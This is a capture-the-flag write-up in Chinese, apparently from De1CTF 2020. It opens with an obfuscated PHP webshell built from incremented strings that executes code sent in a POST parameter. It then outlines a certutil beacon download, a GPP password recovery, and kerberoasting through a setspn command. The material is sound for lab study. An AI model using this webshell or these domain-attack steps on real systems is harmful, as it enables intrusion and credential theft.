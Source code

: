```php
<?=$__=$_?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?>
<?=$___.=$__?>

<?=$__=$_?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?>
<?=$___.=$__?>


<?=$__=$_?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?>
<?=$___.=$__?>

<?=$__=$_?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?>
<?=$___.=$__?>

<?=$____='_'?>
<?=$__=$_?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?>
<?=$____.=$__?>

<?=$__=$_?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?>
<?=$____.=$__?>

<?=$__=$_?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?>
<?=$____.=$__?>


<?=$_=$$____?>
<?=$___($_['_'])?>
```

后面正常操作，certutil下载beacon上线。

`dir \\dc.de1ctf2020.lab\Hint`有一个压缩包，`net user /domain`有`HintZip_pass`用户，通过GPP漏洞拿到该用户密码，解压即可

第二关

先通过kerberoast爆破De1ta用户密码，`setspn`新增一个SPN，服务账户设定为De1ta：`setspn -S http/web.de1ctf2020.lab De1ta`，接着请求该服务的ST，即可离线爆破

之后大感觉是资源委派（因为看到出题人在先知上发过文章），我本地实验环境DC还是winserver2008，算了放弃了

### calc

这出题人有点搞笑
